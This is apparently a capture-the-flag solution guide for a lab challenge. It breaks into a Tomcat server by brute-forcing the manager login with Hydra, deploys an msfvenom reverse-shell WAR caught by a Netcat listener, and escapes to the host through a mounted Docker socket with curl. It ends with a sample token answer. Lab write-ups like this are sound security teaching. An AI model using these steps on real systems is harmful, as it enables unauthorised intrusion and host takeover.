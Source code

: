 # Let Loose the Logs of War

*Solution Guide*

## Overview

In *Let Loose the Logs of War* players are expected to exploit a webserver running in a Docker container and access the host file system.

## Question 1

*Enter Token 1 found in the / directory of the webserver container.*

Begin by logging into the `log-viewer` Kali VM and browsing to the webserver at `10.5.5.100`. It may take a few minutes for the server to start. You are presented with the following page:

![Webserver page](img/img1.png)

You can experiment with this page if you want, but it is just a log viewer and has no bearing on the challenge itself. Let's begin by trying to examine the host machine.

1. Open a terminal and run the following command to show open ports:

```bash
nmap -sV 10.5.5.100
```

![Nmap results](img/img2.png)

Apache Tomcat is running on port `8080` and an Apache web server is on `80`.

2. Browsing to `10.5.5.100:8080` shows a **HTTP Status 404 – Not Found** page. Let's try using DirBuster on the two ports:

```bash
dirb http://10.5.5.100
dirb http://10.5.5.100:8080
```

You'll see the **manager** page is accessible on port `8080`:

![Dirb result](img/img3.png)

3. Browse to `http://10.5.5.100:8080/manager`. It looks like we need to log in.

![Manager login](img/img4.png)

4. We can try to brute-force the password using Hydra. Move the `wordlist.txt` file from the CDROM to the Desktop. The challenge instructions say to use the login *admin*:

```bash
hydra -s 8080 -l admin -P /home/user/Desktop/wordlist.txt 10.5.5.100 http-get /manager/html -m "/manager/html" -t 4
```

![Hydra](img/img5.png)

>**Note:** Your password will be different as it is randomized for each challenge launch.

5. Use the credentials to login. You can now access the **Tomcat Web Application Manager** page.

![Tomcat Manager](img/img6.png)

6. Look at the **WAR file to deploy** section -- we're interested in this section

![WAR file deploy](img/img7.png)

7. Let's generate a reverse shell with **msfvenom**:

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.5.5.60 LPORT=9999 -f war > shell.war
```

![msfvenom command](img/img8.png)

This creates a file that attempts to reach back to your machine with an interactive shell. Your machine's IP address will be different for the `LHOST` setting. You can get your IP address using the command `ip a`.

8. Go back to the Tomcat Web Application Manager in the browser. In the **WAR file to deploy section**, select the **Browse** button, then navigate to and highlight your generated `.war` file and select **Open**. You will see the name of your file to the right of the **Browse** button.

![Browse for WAR file](img/img9.png)

9. Before deploying the WAR file, open a Netcat listener on your machine. In the terminal, enter:

```bash
nc -klvp 9999
```

This opens a Netcat listener with these options:

- `-k` option keeps the listener open if it disconnects.
- `-l` option specifies that Netcat should listen for incoming connections.
- `-p` specifies the port number (`9999` in our case, which we chose when making the WAR file) it should listen on.

![Netcat listener](img/img10.png)

10. Once the listener is open, click **Deploy** on the Tomcat Web Application Manager in the browser. You should see the **/shell** app now showing in the Applications section of the Tomcat Manager page.

![Shell app](img/img10.png)

11. Open the **/shell** link on the manager page. You will see a connection message in your listener window.

![Connect to](img/img12.png)

12. Let's find out which user we are with the `whoami` command. Good! We're `root`, but that's not normal...right? We know from reading the challenge question that we are in web server container.

![whoami](img/img13.png)

13. So, to get Token 1, enter `ls /` to list the contents of the root folder... and there is Token 1.

![Token 1](img/img14.png)

14. Enter `cat /TOKEN1.txt` to get the answer to question 1.

>Remember, your answer will be different because the tokens are randomized per challenge launch.

![cat Token 1](img/img15.png)

## Question 2

*Enter Token 2 found in the /home/user/ directory of the host system.*

1. Since we're in a container, we can explore vulnerabilities. The administrator mistakenly mounted `docker.sock` in the container, allowing access to the root file system. Confirm the mount by entering:

```bash
ls /var/run/docker.sock
```

![Docker socket](img/img16.png)

2. List the images on the host you have available (since this is an isolated environment without access to the Docker repository) with this command:

```bash
curl --unix-socket /var/run/docker.sock http://localhost/images/json | awk '{gsub(/},\s*{/, "}\n{\n"); gsub(/^\[\s*/, "[\n"); gsub(/\s*\]$/, "\n]"); gsub(/,\s*$/, "\n"); print}'
```

>The `| awk...` part is not necessary, but it makes the output a little more readable.

![Docker images](img/img17.png)

3. Looking at the output, we can see there are three versions of Tomcat images installed on the system. We can use the Docker socket to create a container to display the contents of the folders on the host.

```bash
curl --unix-socket /var/run/docker.sock -X POST -H "Content-Type: application/json" \
   -d '{
     "Image": "tomcat:latest",
     "Cmd": ["/bin/sh", "-c", "ls /host/home/user/"],
     "HostConfig": {
       "Binds": ["/:/host"]
     }
   }' http://localhost/containers/create
```

This outputs a container `Id` for the container you just created:

![Container ID](img/img18.png)

4. Let's start our container. Your command will be different than the command below. Be sure to use the container `Id` output from the previous command.

```bash
curl --unix-socket /var/run/docker.sock -X POST http://localhost/containers/02a5d7e0420b83ae2699a91c91d726c0b96ca01eee2178f25edd2d382deeb6d9/start
```

5. Now we need to view the Docker logs to get the output from our `ls` command in the container we just built (again, note that your container `Id`will be different):

```bash
curl --unix-socket /var/run/docker.sock "http://localhost/containers/02a5d7e0420b83ae2699a91c91d726c0b96ca01eee2178f25edd2d382deeb6d9/logs?stdout=true"
```

![Docker logs](img/img19.png)

6. We see the token there, but we need the contents of the file. To get that, let's build a new container with the `cat` command in place of `ls`:

```bash
curl --unix-socket /var/run/docker.sock -X POST -H "Content-Type: application/json" \
   -d '{
     "Image": "tomcat:latest",
     "Cmd": ["/bin/sh", "-c", "cat /host/home/user/TOKEN2.txt"],
     "HostConfig": {
       "Binds": ["/:/host"]
     }
   }' http://localhost/containers/create
```

Again, your `Id` will be different.

![Container](img/img20.png)

7. Run the new container (remembering, of course, that your `Id` is different than what is presented in this solution guide).

```bash
curl --unix-socket /var/run/docker.sock -X POST http://localhost/containers/e5fb1bb516e59fd223c4aa5bfc6f5fdafbe47babb8f105327cd3c1d68e7662dc/start
```

8. Finally, let's get the logs from the new container and get our token.

```bash
curl --unix-socket /var/run/docker.sock "http://localhost/containers/e5fb1bb516e59fd223c4aa5bfc6f5fdafbe47babb8f105327cd3c1d68e7662dc/logs?stdout=true"
```

![Token 2](img/img21.png)

The token you would submit for Question 2 is: `456758895`. Your answer will be different because the tokens are randomized per challenge launch.